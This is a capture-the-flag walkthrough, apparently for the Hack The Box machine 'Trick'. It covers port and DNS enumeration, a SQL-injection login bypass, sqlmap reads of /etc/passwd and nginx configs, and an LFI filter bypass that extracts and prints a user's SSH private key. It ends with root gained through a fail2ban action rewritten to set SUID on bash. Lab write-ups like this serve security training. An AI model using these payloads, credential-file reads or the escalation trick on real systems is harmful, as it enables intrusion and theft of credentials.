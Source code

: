 Let's scan the ports....

`sudo nmap -sC -sS 10.10.11.166 -oA trick`

`sudo rustscan -a 10.10.11.166 --scripts none --ulimit 5000`

```txt
Open 10.10.11.166:22
Open 10.10.11.166:25
Open 10.10.11.166:53
Open 10.10.11.166:80
10.10.11.166 -> [22,25,53,80]
```

`sudo rustscan -a 10.10.11.166 -p 22,25,53,80 -- -sC -sV`

```txt
Nmap scan report for trick.htb (10.10.11.166)
Host is up, received echo-reply ttl 63 (0.050s latency).
Scanned at 2022-07-16 06:04:10 EDT for 48s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp    syn-ack ttl 63 Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.26 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```

`nslookup`
`SERVER 10.10.11.166 #Select dns server`
`127.0.0.1`
`10.10.11.166`

After trying with different dns enum, we found the hostname:
`166.11.10.10.in-addr.arpa       name = trick.htb.`

Let's add this in /etc/hosts file.

Let's try to enemurate more:
`dig any @10.10.11.166 trick.htb`

We got a subdomain root.trick.htb

`dig axfr @10.10.11.166 trick.htb`

preprod-payroll.trick.htb

http://preprod-payroll.trick.htb/login.php

Now let's try to find out more domains if there is any:

`ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://trick.htb/ -H "Host: FUZZ.trick.htb"`

No luck with fuzzing. Let's try to login via SQL injection with `admin' or '1'='1`
Logged in!
From settings we found the password:
`SuperGucciRainbowCake`

Now as we know the site is vulnerable, we tried to perform sql injection by a saved request file with sqlmap:

We found the DB name `payroll_db` and now we will try to see if we can read any file in the server....

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/passwd --threads 10`

Seems like we were able to read the files. So after enemurating more, we suspected that some useful information about nginx.

https://thatcoder.space/nginx-configurations-and-hacks/

We tried to read the site's nginx configuration to understand it better.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/nginx.conf --threads 10`

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/sites-enabled/default --threads 10`

After going through the files, we found another subdomain `market` in which we suspected LFI vulnerability. So to perform the LFI, we triend to read the index page to see if any filter was used to bypass LFI.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/var/www/market/index.php --threads 10`

We found the filter and we bypassed it to perform LFI. We found the OPENSSH private key in the `/home/michael/.ssh/id_rsa` file.

`GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa`

Full request:
```txt
GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa HTTP/1.1

Host: preprod-marketing.trick.htb

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close
```

```txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Let's save it as key.pem

Now, give the file proper permission:
`chmod 400 key.pem`

Let's try to log in via SSH:
`ssh michael@10.10.11.166 -i key.pem`

As we are in, the user flag is in user.txt file
User Flag: `c5baa4266e32e2ae5b21d804********`

Now let's try to find the priviledges by running `sudo -l`

```txt
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

After searcing the internet, we found some blog worth looking into!

https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/
https://www.youtube.com/watch?v=zDf2hpCu7D0&t=1187s&ab_channel=HackingWalkthroughs

`cd /etc/fail2ban/action.d`

We followed the guideline and did the following....

Edited the `iptables-multiport.conf` file wit vim and replaced the commands of `actionban` and `actionunban`  with `chmod +s /bin/bash`

`actionban = chmod +s /bin/bash`
`actionunban = chmod +s /bin/bash`

Then we saved the file using `:wq!` command.

Then we restarted the fail2ban service by running the following command:
`sudo /etc/init.d/fail2ban restart`

After the service restarted, we tried to attempt failed login so that our command executes.

`sshpass -p test ssh miachael@10.10.11.166`

While attempting, we watched the permission of bash shell using `watch -n 0 ls -la /bin/bash` command.

After 5 times failed attempt, we saw that our permission of bash file changed. Now we tried to run the bash shell using `bash -p` command.

Now we have root!

We found the root flag in /root/root.txt

Root Flag: `b03a2e8b76cf2b89c0b173ee********`
